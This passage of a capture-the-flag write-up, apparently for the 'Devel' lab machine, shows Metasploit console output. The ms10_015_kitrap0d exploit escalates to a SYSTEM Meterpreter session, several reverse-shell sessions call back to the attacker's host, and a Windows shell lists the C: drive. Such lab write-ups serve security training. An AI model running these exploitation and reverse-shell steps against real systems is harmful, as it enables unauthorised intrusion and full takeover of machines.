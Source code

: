 ```
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175174 bytes) to 10.129.135.184
[*] Meterpreter session 4 opened (10.10.x.x:2121 -> 10.129.135.184:49161) at 2021-04-25 22:29:27 +0800

meterpreter > 
```
Oh yeah!! It works!

Seeing active sessions..
```
msf6 exploit(windows/local/ms10_015_kitrap0d) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                                                                       Connection
  --  ----  ----                     -----------                                                                       ----------
  2         shell x86/windows        Spawn Shell... Microsoft Windows [Version 6.1.7600] Copyright (c) 2009 Micros...  10.10.x.x:4545 -> 10.129.135.184:49159 (10.129.135.184)
  3         meterpreter x86/windows  IIS APPPOOL\Web @ DEVEL                                                           10.10.x.x:4433 -> 10.129.135.184:49160 (10.129.135.184)
  4         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ DEVEL                                                       10.10.x.x:2121 -> 10.129.135.184:49161 (10.129.135.184)

```
Time to go into session 4 to get flags and we're done!
```
msf6 exploit(windows/local/ms10_015_kitrap0d) > sessions -i 4
[*] Starting interaction with 4...
...
meterpreter > pwd
c:\
meterpreter > ls
[-] Error running command ls: NoMethodError undefined method `[]' for nil:NilClass
```
This is weird, seems to be some bug where we can't list what's on the directory. There is a work around though!
```
meterpreter > shell
Process 148 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8620-71F1

 Directory of C:\

11/06/2009  12:42 ��                24 autoexec.bat
11/06/2009  12:42 ��                10 config.sys
17/03/2017  07:33 ��    <DIR>          inetpub
14/07/2009  05:37 ��    <DIR>          PerfLogs
13/12/2020  01:59 ��    <DIR>          Program Files
18/03/2017  02:16 ��    <DIR>          Users
14/01/2021  12:48 ��    <DIR>          Windows
               2 File(s)             34 bytes
               5 Dir(s)  22.199.873.536 bytes free
...
```